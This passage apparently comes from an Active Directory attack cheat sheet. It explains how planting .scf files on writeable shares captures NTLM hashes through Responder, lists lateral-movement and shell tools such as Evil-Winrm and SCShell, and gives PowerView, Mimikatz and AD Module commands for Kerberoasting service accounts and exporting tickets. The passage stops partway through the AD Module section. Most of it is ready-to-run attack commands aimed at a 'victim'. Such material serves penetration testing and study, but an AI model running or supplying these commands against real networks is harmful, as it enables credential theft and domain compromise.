     ⧉ Copied!
    

Putting these files in a writeable share the victim only has to open the file explorer and navigate to the share. **Note** that the file doesn't need to be opened or the user to interact with it, but it must be on the top of the file system or just visible in the windows explorer window in order to be rendered. Use responder to capture the hashes.

:exclamation: .scf file attacks won't work on the latest versions of Windows.

### Useful Tools

- [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward
    capabilities.
- [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
- [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting
- [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp and open version of windows builtin runas.exe
- [ntlm_theft](https://github.com/Greenwolf/ntlm_theft.git) creates all possible file formats for url file attacks

## Domain Privilege Escalation

### Kerberoast

*WUT IS DIS?:*
All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user"
account, extract the encrypted blob that was encrypted using the user's password and bruteforce it offline.

- PowerView:
    
    ```powershell
    #Get User Accounts that are used as Service Accounts
    Get-NetUser -SPN
    
    #Get every available SPN account, request a TGS and dump its hash
    Invoke-Kerberoast
    
    #Requesting the TGS for a single account:
    Request-SPNTicket
    
    #Export all tickets using Mimikatz
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    ```
    
    ⧉ Copied!
    
- AD Module:
    
    ```powershell
    #Get User Accounts that are used as Service Accounts
    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
    ```
    